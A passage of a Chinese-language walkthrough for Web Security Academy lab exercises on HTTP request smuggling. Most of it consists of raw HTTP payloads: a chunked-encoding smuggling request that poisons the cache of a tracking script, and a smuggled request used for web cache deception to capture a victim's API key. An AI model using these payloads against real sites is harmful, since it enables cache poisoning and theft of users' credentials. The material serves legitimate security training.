 然后我用这个：

```http
POST /post/comment HTTP/1.1
Host: ac3d1f301edd1c2a80181dc100e0000c.web-security-academy.net
Content-Length: 178
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post/next?postId=2 HTTP/1.1
Host: ace41fb41e6b1c0980771de2012f00b9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

去修改缓存，之后用下面这个去修改缓存。

```http
GET /resources/js/tracking.js HTTP/1.1
Host: ac3d1f301edd1c2a80181dc100e0000c.web-security-academy.net
Connection: close


```

每个EXP一次。

### 12. Exploiting HTTP request smuggling to perform web cache deception

> 前端服务器不支持分块编码(CL.TE)。前端服务器正在缓存静态资源。
>
> 为了解决本实验室的问题，执行请求走私攻击，使下一个用户的请求导致他们的API密钥被保存在缓存中。然后从缓存中检索受害者用户的API密钥，并将其作为实验室解决方案提交。您需要从访问实验室开始等待30秒，然后再尝试欺骗受害者缓存他们的API密钥。

直接构造payload。

```http
POST /login HTTP/1.1
Host: ac941f6c1f773cc080ee1c58006e009f.web-security-academy.net
Content-Length: 37
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
Foo: x
```

多发几次，然后去访问（大海捞针）静态资源。

至于怎么去找：

* 多发几次，让静态资源被写入。
* 打开无痕浏览器去强制访问？？？？